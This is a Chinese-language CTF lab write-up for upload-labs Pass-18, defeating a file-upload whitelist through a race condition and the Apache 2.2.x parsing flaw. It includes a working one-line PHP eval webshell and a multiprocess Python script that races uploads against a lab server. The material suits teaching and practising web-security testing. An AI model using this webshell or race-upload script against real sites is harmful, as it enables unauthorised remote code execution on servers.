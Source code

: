 # 需在apache2.2.x环境下通过解析+条件竞争绕过

这里采用复制一下大佬的wp



apache2.4.x的环境下暂时还未找到绕过方法，在apache2.2.x的环境下可以通过条件竞争加上apache2.2.x解析漏洞去绕过，这一关的要求是上传一个webshell到服务器，题目提示说需要代码审计，那么首先来看代码：

重要代码部分如下：

```javascript
//index.php
$is_upload = false;
$msg = null;
if (isset($_POST['submit']))
{
    require_once("./myupload.php");
    $imgFileName =time();
    $u = new MyUpload($_FILES['upload_file']['name'], $_FILES['upload_file']['tmp_name'], $_FILES['upload_file']['size'],$imgFileName);
    $status_code = $u->upload($UPLOAD_ADDR);
    switch ($status_code) {
        case 1:
            $is_upload = true;
            $img_path = $u->cls_upload_dir . $u->cls_file_rename_to;
            break;
        case 2:
            $msg = '文件已经被上传，但没有重命名。';
            break; 
        case -1:
            $msg = '这个文件不能上传到服务器的临时文件存储目录。';
            break; 
        case -2:
            $msg = '上传失败，上传目录不可写。';
            break; 
        case -3:
            $msg = '上传失败，无法上传该类型文件。';
            break; 
        case -4:
            $msg = '上传失败，上传的文件过大。';
            break; 
        case -5:
            $msg = '上传失败，服务器已经存在相同名称文件。';
            break; 
        case -6:
            $msg = '文件无法上传，文件不能复制到目标目录。';
            break;      
        default:
            $msg = '未知错误！';
            break;
    }
}
```

分析一下代码的执行过程，首先使用$_FILES['upload_file']['name']接收文件名，然后获取文件后缀名进行白名单检查，需要注意的是这里使用的strrchr函数去截取后缀名的，所以获取到的是最后一个点后面的后缀名。如果后缀名不在白名单内的话就会提示上传失败，否则就会将文件使用rename函数重命名后上传至指定的目录，比如上传的是shell.php.xxx,shell.php会被重命名，导致最终文件命名变为xxxx.jpg而无法解析，所以这里同样需要使用竞争上传的方式，在重命名之前将文件上传至服务器，之后再结合apache2.2.x的解析漏洞使文件被解析，所以这里可以构造文件名为shell.php.7z

贴出我写的上传脚本

```javascript
#coding=utf-8
import requests
from multiprocessing import Pool
def CompeteUpload(list):
    url="http://192.168.233.130:8080/upload-labs/Pass-18/index.php"
    geturl="http://192.168.233.130:8080/upload-labs/upload/info.php"
    file={'upload_file':('shell.php.7z',"<?php @eval($_POST['c1imber']);?>",'image/jpeg')}
    data={'submit':'上传'}
    r=requests.post(url=url,data=data,files=file)
    #print "test upload...."
    r1=requests.get(url=geturl)
    if r1.status_code==200:
        print "upload success!"
if __name__=="__main__":
    pool = Pool(10)
    pool.map(CompeteUpload, range(10000))
    pool.close()
    pool.join()
```


